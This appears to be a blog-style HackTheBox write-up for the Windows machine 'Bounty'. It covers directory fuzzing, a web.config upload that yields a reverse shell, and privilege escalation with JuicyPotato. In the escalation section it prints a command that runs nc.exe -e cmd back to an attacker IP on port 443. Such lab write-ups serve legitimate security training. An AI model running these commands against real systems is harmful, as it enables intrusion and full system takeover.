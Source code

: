 ```yaml
---

title: "Bounty"
date: 2023-08-10T11:30:03+00:00
tags: ["web","windows","JuicyPotato"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/Bounty.png"
comments: false
description: "This is a friendly windows machine that is vulnerable because has a bad configuration of directories."

---
```


## Room Information

- Room name: Bounty
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/bounty

![Untitled](/HTB/Bounty.png)

## Tools Used

- Nmap
- searchsploit
- smbclient
- JuicyPotato
- wfuzz
- gobuster

## Port Scanning

Other room, other port scan.

![Untitled](/HTB/targeted-bounty.png)

As you can see there’s only one open port: port 80 (http). So let’s focus on them.

## Enumeration

As I always do with all machines I set out to do the directory scan with **gobuster** and **wfuzz,** and I find some things:

pd: a photo of the website

![Untitled](/HTB/web-bounty.png)

The scans I did:

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -z list,aspx-asp-txt  http://10.10.10.93/FUZZ.FUZ2Z
```

I found the **/transfer.aspx** file … 

![Untitled](/HTB/aspx-bounty.png)

![Untitled](/HTB/upload-bounty.png)

My first idea was to upload a reverse shell in .exe or .**aspx** or .asp, but I soon realized that most of the potentially dangerous extensions were patched, so I decided to see which ones were not. As there were so many tests I had to do, I automated it with **BurpSuite** and passed it a dictionary of extensions that I searched for on **github**.

![Untitled](/HTB/burp1-bounty.png)


![Untitled](/HTB/burp2-bounty.png)

I found several, but among them the **.config** extension caught my attention, since it seemed to me that I could execute **aspx** code inside it. The next thing I did was to search in google for some kind of reverse shell with this extension and I found a post in **github** that explained it perfectly, I only had to change a few things and that was it.

SNow I needed to see where to save the file I uploaded, so I started to discover directories with **wfuzz** and **gobuster** like crazy until I found it.

pd: the directory is called **/UploadFiles/**

![Untitled](/HTB/folder-bounty.png)

## Exploiting

So once I have discovered the directory where the files I upload are stored, all that remains is to upload the web.config exploit and run it. This exploit would be in charge of downloading and executing another exploit that would start a reverse shell to the ip and port that we have previously modified. It is necessary to say that apart from having a server mounted in port 80 in my machine I also put myself in listening in the port that I specified the 443, to receive there the reverse shell.

![Video demostration of how to pwn the machine.](/HTB/pwn-bounty.gif)


So  at this point I was in  😇

## Escalating Privileges

I was user **merlin** so as always I went to the desktop folder to see the flag, but in this case was ocult, so I searched on google what could I do, and I did this → `dir -force`

![Untitled](/HTB/dir-bounty.png)

Then I did as always a `whoami /priv`

![Untitled](/HTB/priv-bounty.png)

And I saw that this machine is vulnerable to a `JuicyPotato`  attack, so I could escalate privileges.

So as I already did this on past machines I searched my system with `find / -name "JuicyPotato.exe" 2>/dev/null`, the file `nc.exe` and the `JuicyPotato.exe`, and I moved it to the victim machine thanks to the smbserver that I created with the `smbserver.py` tool.

![Untitled](/HTB/dir2-bounty.png)

Then I execute this command and 

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.11 443"
```

Then I listened on port 443, executed this command and received the reverse shell as root user 😎

![Untitled](/HTB/root-bounty.png)

## Lessons Learned

- What insights did you gain from the room?
    
    I learn more about **.config**, and brute force with **burpsuite**.
    
- Where there any novel tools or techniques employed?
    
    Using **BurpSuite** as brute force machine.
